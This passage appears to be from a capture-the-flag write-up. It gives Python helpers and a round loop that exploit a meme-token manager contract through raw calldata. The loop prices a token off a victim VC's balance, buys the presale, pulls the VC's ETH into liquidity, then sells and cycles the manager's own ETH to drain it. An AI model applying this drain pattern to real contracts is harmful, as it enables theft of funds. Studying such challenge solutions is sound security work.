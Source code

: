 I used a single file, no ABIs, only selectors + codec and raw calldata for `swap()`.

Key helpers:

```py
def build_swap_single(token: str, amount: int, dirflag: int) -> bytes:
    sel = selector("swap()")
    out = bytearray(sel)
    out += bytes([1])                               # n = 1
    out += bytes.fromhex(token[2:].lower())         # 20B token
    out += amount.to_bytes(32, "big")               # 32B amount
    out += bytes([dirflag & 0xff])                  # 1=BUY, 0=SELL
    return bytes(out)
```

```py
def round_presale_pay_for_price(price_wei: int, want_pay: int) -> int:
    g = math.gcd(price_wei, 10**18)
    unit = price_wei // g          # minimal wei step to satisfy equality
    return (want_pay // unit) * unit
```

```py
def price_for_vc_chunk(vc_wei: int) -> int:
    if vc_wei <= 0: return 1
    p = (vc_wei * 10**18) // MEME_AMOUNT
    return max(1, min(p, PRICE_CAP))
```

A single round implementation (simplified):

```py
vc_bal   = w3.eth.get_balance(vc)
chunk    = min(vc_bal, Web3.to_wei(10, "ether"))
price    = price_for_vc_chunk(chunk)

token = create_meme(manager, name, symbol, price)

# presale (≥ 0.5 ETH), rounded for equality
eoa_bal     = w3.eth.get_balance(me)
gas_cushion = Web3.to_wei(0.02, "ether")
pay         = max(Web3.to_wei(0.5,"ether"), eoa_bal - gas_cushion)
pay         = round_presale_pay_for_price(price, pay)
presale_exact(manager, token, price, pay)

# VC -> liquidity
provide_liquidity(manager, token, now+900)

# SELL presale tokens
amount = erc20_balance(token, me)
approve_if_needed(token, manager, amount)
send_tx(manager, build_swap_single(token, amount, 0))

# BUY with manager ETH, then SELL back
mgr_eth = w3.eth.get_balance(manager) - Web3.to_wei(0.00005,"ether")
if mgr_eth > 0:
    send_tx(manager, build_swap_single(token, mgr_eth, 1))
    bought = erc20_balance(token, me)
    approve_if_needed(token, manager, bought)
    send_tx(manager, build_swap_single(token, bought, 0))
```
